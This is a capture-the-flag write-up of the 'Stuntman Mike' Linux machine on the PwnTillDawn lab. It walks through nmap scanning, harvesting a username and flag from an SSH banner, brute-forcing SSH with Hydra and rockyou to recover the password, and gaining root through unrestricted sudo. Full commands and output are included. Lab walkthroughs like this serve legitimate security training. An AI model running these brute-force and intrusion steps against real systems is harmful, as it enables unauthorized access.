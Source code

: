 ```yaml
---
title: Stuntman Mike - Easy Linux Boot2root on PwntillDawn
date: 2023-10-28 00:00:00 -500
categories: [PwntillDawn]
tags: [Linux, PWTD, Easy, Hacking]
image:
    path: https://i.ibb.co/G5GTsCf/stuntman.png
---
```

PwnTillDawn Online Battlefield is a penetration testing lab created by the wizlynx group. Here, participants can put their offensive security skills to the test within a safe and legal environment, all while having a blast! The goal is simple: breach as many machines as possible by exploiting a sequence of weaknesses and vulnerabilities, and gather flags to demonstrate your successful exploitation
If you're eager to enhance your hacking skills and learn alongside us, we invite you to join the ranks of aspiring hackers and cybersecurity enthusiasts.

- **The Best Academy to Learn Hacking is [Here](https://affiliate.hackthebox.com/nenandjabhata)**.
- **Beginner Friendly challenges on TryHackMe [Here](https://tryhackme.com/signup?referrer=61e8a27ddd3f3b00496505d1)**.

## Enumeration(Recon)
for the enumeration time, we always start with a basic nmap scan.. Like this.
```terminal
└─# nmap -Pn -p- --open 10.150.150.166
Host is up (1.1s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8089/tcp open  unknown
```
As you can see here, our nmap scan found only 2 open port, and the port `8089` service seem's to be unknow. Let's launch another scan on that specific port.
```terminal
└─# nmap -sV -p8089 $ip 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-28 13:22 GMT
Stats: 0:01:14 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 50.00% done; ETC: 13:24 (0:00:03 remaining)
Stats: 0:01:15 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 50.00% done; ETC: 13:24 (0:00:05 remaining)
Nmap scan report for 10.150.150.166
Host is up (0.94s latency).

PORT     STATE SERVICE  VERSION
8089/tcp open  ssl/http Splunkd httpd
```
So, here we used nmap with the `-sV` that will Probe open ports to determine service/version info. and here we found an http Splunkd Version on that port. Let's visit it.

![The Splunkd Website](https://i.ibb.co/MPTksXf/splunk.png){:class="img-responsive"}
In this website, i tried to launch a Directory Fuzzing attack but nothing on it. The second Way now is to attack the ssh port `22`.
I will try to connect on the root ssh account using the `-v` flag, to see All Verbosity.
```terminal
└─# ssh root@10.150.150.166 -v
debug1: get_agent_identities: bound agent to hostkey
debug1: get_agent_identities: ssh_fetch_identitylist: agent contains no identities
debug1: Will attempt key: /root/.ssh/id_rsa ED25519 SHA256:B0hYWC7V1dBf7UAC5CM40v15EhQp9lzkw6JU8akRQ/c
debug1: Will attempt key: /root/.ssh/id_ecdsa 
debug1: Will attempt key: /root/.ssh/id_ecdsa_sk 
debug1: Will attempt key: /root/.ssh/id_ed25519 
debug1: Will attempt key: /root/.ssh/id_ed25519_sk 
debug1: Will attempt key: /root/.ssh/id_xmss 
debug1: Will attempt key: /root/.ssh/id_dsa 
debug1: SSH2_MSG_EXT_INFO received
debug1: kex_input_ext_info: server-sig-algs=<ssh-ed25519,ssh-rsa,rsa-sha2-256,rsa-sha2-512,ssh-dss,ecdsa-sha2-nistp256,ecdsa-sha2-nistp384,ecdsa-sha2-nistp521>
debug1: SSH2_MSG_SERVICE_ACCEPT received
You are attempting to login to stuntman mike's server - FLAG35=724a2734e80ddbd78b2694dc5eb74db395403360
debug1: Authentications that can continue: publickey,password
debug1: Next authentication method: publickey
debug1: Offering public key: /root/.ssh/id_rsa ED25519 SHA256:B0hYWC7V1dBf7UAC5CM40v15EhQp9lzkw6JU8akRQ/c
debug1: Authentications that can continue: publickey,password
debug1: Trying private key: /root/.ssh/id_ecdsa
debug1: Trying private key: /root/.ssh/id_ecdsa_sk
debug1: Trying private key: /root/.ssh/id_ed25519
debug1: Trying private key: /root/.ssh/id_ed25519_sk
debug1: Trying private key: /root/.ssh/id_xmss
debug1: Trying private key: /root/.ssh/id_dsa
debug1: Next authentication method: password
root@10.150.150.166's password: 
```
As you can see in this ouput, we found this `You are attempting to login to stuntman mike's server - FLAG35=724a2734XXXXXXXXXXXXXXXXXXXXXXXXXXXXX`. 
On this note that tell Us we are trying to connect to mike's server, now we know that there is a mike user.
**Bruteforce mike's Password**
The method we are going to try, is to bruteforce this user(mike) password using `Hydra` and `rockyou`.
```terminal
└─# hydra -l mike -P /usr/share/wordlists/rockyou.txt ssh://10.150.150.166 -t 60 -I  
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-28 13:51:19
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 60 tasks per 1 server, overall 60 tasks, 14344399 login tries (l:1/p:14344399), ~239074 tries per task
[DATA] attacking ssh://10.150.150.166:22/
[22][ssh] host: 10.150.150.166   login: mike   password: babygirl
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 22 final worker threads did not complete until end.
[ERROR] 22 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
```
Wow, very fast. The password has been found, Now Let's connect on his ssh server using this password.
```terminal
└─# ssh mike@10.150.150.166
  System load:  0.01               Processes:            167
  Usage of /:   28.5% of 19.56GB   Users logged in:      1
  Memory usage: 20%                IP address for ens33: 10.150.150.166
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

18 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


*** System restart required ***
Last login: Tue Apr 21 08:57:00 2020
mike@stuntmanmike:~$ 
```
Successfuly logged in.
## Privilege Escalation
So here, we will check if the user mike have a `sudo` permission on this server using the `sudo -l`
```terminal
mike@stuntmanmike:~$ sudo -l
[sudo] password for mike: 
Sorry, try again.
[sudo] password for mike: 
Matching Defaults entries for mike on stuntmanmike:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on stuntmanmike:
    (ALL : ALL) ALL
```
Good, mike have ALL permission on this server. ALL we have to do is `sudo su` to get `root` privilegies.
```terminal
root@stuntmanmike:~# id;hostnamectl
uid=0(root) gid=0(root) groups=0(root)
   Static hostname: stuntmanmike
         Icon name: computer-vm
           Chassis: vm
        Machine ID: 98ba6d703d174d9e9879437ad460d5c4
           Boot ID: 7fc1f70009394ece804a03c26ed1d3ed
    Virtualization: vmware
  Operating System: Ubuntu 18.04.4 LTS
            Kernel: Linux 4.15.0-96-generic
      Architecture: x86-64
root@stuntmanmike:~# 
```

### Join Us
Thanks for reading. **Let's learn, explore, and hack together**. **Join us on Discord [here](https://discord.gg/wBT9wr9ruG)**. 